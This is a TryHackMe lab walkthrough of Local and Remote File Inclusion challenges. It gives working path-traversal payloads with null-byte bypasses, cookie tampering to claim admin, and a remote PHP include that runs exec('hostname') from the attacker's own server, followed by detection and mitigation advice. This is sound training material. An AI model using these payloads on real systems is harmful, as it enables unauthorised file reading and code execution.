 TryHackMe - File Inclusion Walkthrough
======================================

This walkthrough documents my approach and solutions to the File Inclusion room on TryHackMe:  
https://tryhackme.com/room/fileinc

Overview
--------

The room introduces concepts around Local File Inclusion (LFI) and Remote File Inclusion (RFI) vulnerabilities. It emphasizes techniques like input tampering, bypassing filters, and understanding how web applications handle file loading mechanisms.

Make sure the attached VM is running and visit:  
http://10.10.68.207/challenges/index.php

General LFI Testing Methodology
-------------------------------
1. Find entry points in GET, POST, COOKIE, or HTTP header values.
2. Test with valid inputs to understand baseline behavior.
3. Send invalid/suspicious inputs (e.g. ../../../../etc/passwd) to probe for weaknesses.
4. Use external tools like Burp Suite to inspect and modify raw requests.
5. Look for error messages or behavior changes that reveal file paths or vulnerabilities.
6. Understand and bypass filters, like NULL byte injection (%00) or filename extension restrictions.

Challenge 1: Basic LFI via POST Parameter
-----------------------------------------
- The page says: "The input form is broken! You need to send POST request with file parameter!"
- What I did:
    - Inspected the page and modified the form to use POST:
      <form action="#" method="POST">
    - Submitted the value: ../../../../etc/flag1
    - Flag1 printed on screen.

Challenge 2: Cookie-Based LFI + NULL Byte Injection
----------------------------------------------------
- Initial screen says: "Welcome Guest! Only admins can access this page!"
- What I did:
    - Opened browser dev tools → Storage tab → Cookies
    - Changed cookie value from Guest to Admin
    - Page changed but included a file called Admin
    - Changed the cookie to: ../../../../etc/flag2%00
    - Flag2 displayed.

Challenge 3: POST-Based LFI with Filtering Bypass
-------------------------------------------------
- Page looks like a normal input form.
- What I tried:
    - Changed form to POST (like Challenge 1)
    - Tried path traversal with NULL byte: ../../../../etc/flag3%00
    - Didn’t work via browser, so I used Burp Suite Interceptor
    - Modified request method to POST and resent payload
    - Burp Suite bypassed the include logic and revealed Flag3

Challenge 4: Remote File Inclusion (RFI)
----------------------------------------
- Navigated to: http://10.10.68.207/playground.php
- Setup:
    - Ran local Python server: python3 -m http.server
    - Created host.txt:
        <?php
        print exec('hostname');
        ?>
    - Loaded via browser:
      http://10.10.68.207/playground.php?file=http://10.10.44.82:8000/host.txt
    - Flag printed to screen via RFI.

Detection, Mitigation, and Prevention of File Inclusion
--------------------------------------------------------

Detection:
- Monitor for suspicious file access patterns (e.g. ../, .php, remote URLs).
- Look for anomalous requests with odd user-agent or cookies.
- Set up WAF rules to catch common LFI/RFI payloads.

Mitigation:
- Never include files based on user input.
- Whitelist allowed filenames or use strict mappings instead.
- Disable remote URL includes in PHP (allow_url_include = Off).

Prevention:
- Use secure coding practices—avoid include($_GET['file']) or similar.
- Sanitize all input using allowlists and strict validation.
- Keep error messages generic to avoid exposing paths.

Flags Captured
--------------
[x] Flag1  
[x] Flag2  
[x] Flag3  
[x] Final RFI Challenge Flag
